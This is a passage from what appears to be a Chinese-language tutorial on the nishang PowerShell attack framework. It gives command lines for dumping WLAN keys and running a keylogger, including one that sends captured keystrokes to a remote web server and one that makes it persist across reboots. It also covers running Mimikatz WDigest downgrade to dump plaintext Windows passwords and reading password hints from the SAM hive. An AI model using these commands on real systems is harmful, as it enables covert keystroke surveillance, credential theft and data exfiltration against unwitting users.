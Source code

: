 ```powershell
PS > Get-WLAN-Keys
```
#### Keylogger
Keylogger可以保存下用户的键盘记录。
执行方式：

```powershell
PS > .\Keylogger.ps1 -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis  //-CheckURL参数会去检查所给出的网页之中是否包含 -MagicString后的字符串，如果存在的话就停止使用记录。
PS > .\Keylogger.ps1 -CheckURL http://pastebin.com/raw.php?i=jqP2vJ3x -MagicString stopthis -exfil -ExfilOption WebServer -URL http://192.168.254.226/data/catch.php //将记录指定发送给一个可以记录Post请求的Web服务器
PS > .\Keylogger.ps1 -persist //实现持久化记录（重启后依然进行记录）
PS > .\Keylogger.ps1 //直接以这种方式来运行，键盘记录会保存在当前用户的Temp目录下key文件中
```
测试
首先执行 PS > .\Keylogger.ps1 
![keylogger](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/keylogger.jpg)
发现在当前用户的Temp目录下生成了Key的文件，这时我们使用nishang Utility中的Parse_Keys来解析

```powershell
PS >Parse_Keys .\key.log .\parsed.txt
```
然后parsed.txt里面就是解析后的按键记录了
![Parsed](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/parsed.jpg)

#### Invoke-MimikatzWdigestDowngrade
Dump出Windows 8.1 and Server 2012的系统用户密码。
执行方式：

```powershell
PS >Invoke-MimikatzWDigestDowngrade
PS > Get-Job | Receive-Job
```
执行了

```powershell
PS >Invoke-MimikatzWDigestDowngrade
```
Windows会锁屏
![lock](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/invoke-down.jpg)
之后执行

```powershell
Get-Job
```
发现尝试多次都测试失败
![Get-Job](https://raw.githubusercontent.com/myoss114/oss/master/uPic/framework/get-job.jpg)
解决办法可以参考：
[域渗透——Dump Clear-Text Password after KB2871997 installed](http://www.myhack58.com/Article/html/3/62/2016/75903.htm)

#### Get-PassHints
这个脚本可以从Windows获得用户的密码的提示信息，需要有Administrator的权限来读取SAM hive。
执行方式：
